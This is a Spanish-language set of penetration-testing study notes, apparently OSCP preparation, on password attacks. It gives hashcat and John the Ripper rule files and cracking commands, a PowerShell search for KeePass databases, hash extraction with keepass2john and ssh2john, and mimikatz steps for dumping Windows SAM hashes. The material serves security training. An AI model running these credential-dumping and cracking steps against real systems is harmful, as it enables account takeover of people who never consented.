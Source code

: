 
## Password attacks

  Crear una regla para hashcat que añada '1@3$5' al final de cada contraseña:

    └─# cat demo.rule
    $1 $@ $3 $$ $5

  Utilizamos la regla para crackear el hash MD5:

    hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r demo.rule

  Crear una regla para convertir todo a mayúsculas con 'u' y duplicar cada palabara 'd':

    └─# cat demo2.rules 
    u d

  Ejecutamos el ataque:

    └─# hashcat -m 0 hash2.txt /usr/share/wordlists/rockyou.txt -r demo2.rules

  Conseguimos la contraseña:

    19adc0e8921336d08502c039dc297ff8:<REDACTED>

  Reglas de contraseñas:

    https://hashcat.net/wiki/doku.php?id=rule_based_attack

### Keepass

  Buscamos por archivos de Keepass:

    Get-ChildItem -Path C: -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

  Nos transferimos el archivo a nuestro local y sacamos el hash con keepass2john:

    └─# keepass2john Database.kdbx > keepass.hash

  Lanzamos hashcat con la regla /rockyou-30000.rule para crackear la contraseña:

    └─# hashcat -m 13400 keepass_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

### id_rsa

  Para sacar el hash de una clave privada id_rsa:

    ssh2john id_rsa > ssh.hash

  Para pasar las reglas a JTR, tenemos que modificar el archivo custom.rule:

    └─# cat custom.rule 
    [List.Rules:sshRules]
    c $1 $3 $7 $@
    c $1 $3 $7 $$
    c $1 $3 $7 $#

    sh -c 'cat custom.rule >> /etc/john/john.conf'

  Y corremos JTR:

    └─# john --wordlist=ssh.passwords --rules=sshRules ssh_hash

### NTLM

  Si tenemos privilegios de Administador en una máquina Windows, ejecutamos el comando para ver otros usuarios en el sistema a través de PowerShell:

    Get-LocalUser

  Una vez localicemos los nuevos usuarios, corremos mimikatz y ejecutamos:

    privilege::debug

  Con este comando activamos el permiso 'SeDebugPrivilege' que es necesario para este ataque. Después, lanzamos:

    token::elevate

  Para elevar privilegios a SISTEMA.

  Finalmente, para obtener los hashes:

    lsadump::sam

Una vez tenemos el hash, buscamos en hashcat el modo de crackeo:

![image](https://github.com/loqasto/OSCP/assets/111526713/f9b028e5-0d0e-4e5a-a8f0-1156c3ac3d84)

En este caso, el modo es 1000, por lo tanto:

    └─# hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt

Y obtenemos la contraseña en texto plano.
